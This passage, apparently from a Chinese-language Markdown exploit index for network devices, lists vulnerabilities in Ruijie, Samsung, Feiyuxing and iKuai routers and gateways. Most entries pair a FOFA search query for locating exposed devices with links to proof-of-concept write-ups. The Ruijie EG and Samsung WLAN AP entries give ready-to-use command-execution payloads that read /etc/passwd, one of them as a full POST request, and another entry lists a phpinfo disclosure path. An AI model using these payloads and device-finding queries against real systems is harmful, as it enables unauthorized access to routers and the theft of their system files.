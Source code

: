 **NBR路由器CLI命令执行漏洞    /WEB_VMS/LEVEL15/**
- FOFA: title="锐捷网络 --NBR路由器--登录界面"
- POC | Payload | exp
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7NBR%201300G%E8%B7%AF%E7%94%B1%E5%99%A8%20%E8%B6%8A%E6%9D%83CLI%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

**锐捷网关（RG-EG）信息泄露管理员账号密码+RCE**
- 简介

    登陆后可配合 /cli.php?a=shell 执行命令,body为 notdelay=truecommand=cat /etc/passwd

- FOFA: app="Ruijie-EG易网关"
- POC | Payload | exp
    - https://github.com/chaitin/xray/pull/1214
    - https://mp.weixin.qq.com/s/jgNyTHSqWA5twyk5tfSQUQ
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20download.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20cli.php%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20branch_passw.php%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md

**锐捷EG易网关 phpinfo.view.php 信息泄露漏洞**
- POC | Payload | exp
    ```
    /tool/view/phpinfo.view.php
    ```

## Samsung

**三星 WLAN AP WEA453e路由器远程命令执行**
- FOFA: title=="Samsung WLAN AP"
- POC | Payload | exp
    ```
    POST /(download)/tmp/a.txt HTTP/1.1

    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
    ```

## 飞鱼星

**权限绕过信息泄露漏洞**
- FOFA: title="飞鱼星企业级智能上网行为管理系统"
- FOFA: title="飞鱼星家用智能路由"
- [飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞](https://mp.weixin.qq.com/s/Lz08AHM1vrBvLbI2zKVCxg)

## iKuai

**相关文章**
- [爱快流控路由最新版(iKuai8_2.4.4_Build20150604-17_41)固件漏洞挖掘分析之一](https://php.mengsec.com/bugs/wooyun-2015-0122413.html)
- [iKuai8 爱快软路由后台构造页面执行任意Linux命令](http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0121467)
